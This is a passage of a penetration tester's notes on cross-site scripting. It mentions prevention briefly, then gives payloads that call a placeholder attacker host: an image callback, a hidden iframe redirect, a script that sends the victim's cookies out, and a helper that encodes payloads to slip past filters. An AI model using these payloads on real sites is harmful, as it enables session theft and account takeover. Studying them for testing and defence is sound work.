		- [OWASP - Parameterized Queries Cheatsheet - ASP](https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html#using-asp-net-built-in-feature) to prevent [[SQL-Injection]]s that could lead to uncontrolled writes that then in affect cause a Stored XSS vulnerability.

[DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting#dom-based-cross-site-scripting)
- Prevent with:
	- [[JavaScript]]: `encodeURIComponent()` 
## Useful Tricks

Listener at the ready you can check if you get a connection back:
```html
<img src=http://$attacker-ip:port />
```
[Bankrobber Ippsec Video](https://www.youtube.com/watch?v=zYmA9ECuCio)

Content injection, server a file with an iframe of no size sending victims browser to a client-side attack or to script that gathers information. 
```html
<iframe> src=http://$attacker-ip:port/file height=”0” width=”0”></iframe>
```

Cookie Stealing
```html
<script>new Image().src="http://$attacker-ip:port/cookiejar.jpg?output="+document.cookie;</script>
```

Bypass payload size restrictions by [linking to an external Javascript file](https://www.youtube.com/watch?v=Uo3cL4nrGOk).

With iframes see either `src` indicative of a URL or content with `data` or `srcdoc` in [Hacktrick Iframes in XSS, CSP, and SOP](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp) 

Use Minification and encoding with JavaScript in Browser developer console to encode minifed Javascript payloads
```js
// use https://jscompress.com or similar to minify JavaScript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

#### Privilege Escalation with New Admin User creation

